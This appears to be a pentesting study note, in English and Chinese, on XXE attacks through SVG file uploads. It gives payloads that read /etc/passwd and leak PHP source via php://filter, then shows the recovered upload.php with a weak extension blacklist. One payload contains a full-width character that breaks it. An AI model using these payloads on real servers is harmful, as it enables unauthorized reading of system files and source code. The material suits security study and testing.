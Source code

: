```
### 

SVG - File Upload

Files uploaded by users to certain applications, which are then processed on the server, can exploit vulnerabilities in how XML or XML-containing file formats are handled. Common file formats like office documents (DOCX) and images (SVG) are based on XML.

When users **upload images**, these images are processed or validated server-side. Even for applications expecting formats such as PNG or JPEG, the **server's image processing library might also support SVG images**. SVG, being an XML-based format, can be exploited by attackers to submit malicious SVG images, thereby exposing the server to XXE (XML External Entity) vulnerabilities.

An example of such an exploit is shown below, where a malicious SVG image attempts to read system files:
```
POC参考：
[File upload | J4ckie0x17 (gitbook.io)](https://j4ckie0x17.gitbook.io/notes-pentesting/pentesting-web/file-upload)
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=images-functions.php"> ]>
<svg>&xxe;</svg>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>

```
文件上传后由upload.php进行处理，因此获取其源码
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload。php"> ]>
<svg>&xxe;</svg>
```
```
<?php
require_once('./images-functions.php');

// uploaded files directory
$target_dir = "./job_request_files/";

// rename before storing
$fileName = date('y-m-d') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

//  blacklist test
if (preg_match('/.+\.ph(p|ps|tml|tm|t)/', $fileName)) {
    echo "Extension not allowed";
    die();
}else{
        echo "File uploaded succesfully";
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
        displayHTMLImage($target_file);
} else {
```
